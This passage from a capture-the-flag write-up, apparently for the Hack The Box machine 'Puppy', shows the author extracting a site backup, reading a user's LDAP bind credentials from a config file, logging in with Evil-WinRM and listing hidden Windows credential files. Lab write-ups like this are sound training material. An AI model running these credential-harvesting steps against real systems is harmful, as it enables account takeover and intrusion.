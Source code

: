 We can `unzip` it:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Puppy]
└─$ unzip site-backup-2024-12-30.zip -d site_backup
Archive:  site-backup-2024-12-30.zip
   creating: site_backup/puppy/
  inflating: site_backup/puppy/nms-auth-config.xml.bak  
<SNIP>
```

We have a file with a user credentials:

```xml
┌──(mdn0x㉿mdn0xKali)-[~/…/Machines/Puppy/site_backup/puppy]
└─$ cat nms-auth-config.xml.bak 

<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>{{REDACTED_PASSWD}}</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```

`steph.cooper`{{REDACTED_PASSWD}}  can be used to log in:

```bash
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials> dir
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials> dir -h


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:54 AM            414 C8D69EBE9A43E9DEBF6B5FBD48B521B9
```
